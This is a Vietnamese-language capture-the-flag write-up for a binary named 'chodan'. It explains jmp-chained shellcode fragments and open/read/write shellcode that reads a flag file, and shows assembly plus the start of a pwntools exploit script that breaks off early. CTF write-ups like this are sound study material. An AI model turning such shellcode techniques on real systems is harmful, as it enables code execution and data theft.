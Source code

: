- ý tưởng của ta có lẽ là dùng lệnh jmp , ta có thể jmp đoạn thứ nhất sang đoạn thứ 2 và ...

- ta sẽ dùng lable để jmp đến lệnh tiếp theo của shellcode , và lệnh jmp trong trường hợp này là 2 bytes 

```cs
0:  48 c7 c0 03 00 00 00    mov    rax,0x3
7:  eb f7                   jmp    0 <_main>
```

- ta sẽ sử dụng web này để tính số byte [here](https://defuse.ca/online-x86-assembler.htm) và debug để chỉnh sửa cho đúng


- ở đây mình đã open thành công với path là ```./flag.txt``` , tuy nhiên nó trả về ```fd``` là 0 , tại sao lại như vậy?  thì đơn giản là ta đã đóng fd của ```stdin``` nên giờ fd 0 còn trống nên thằng open sẽ lấy nó
![here](/assets/images/opensc.png)

- open thành công rồi thì việc còn lại là read , write , tuy nhiên thì shellcode của mình dùng hơi nhiều bytes nên mình sẽ đổi lại path ngắn hơn :))) ở đề cho là /flag thôi

![here](/assets/images/orw.png)


exp: 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chodan',checksec=False)
context.arch = 'amd64'
p = process()

sc = asm(
        '''
    sc1:
        push 26465
        nop
        jmp sc2
        nop
        nop
        nop
        nop
```
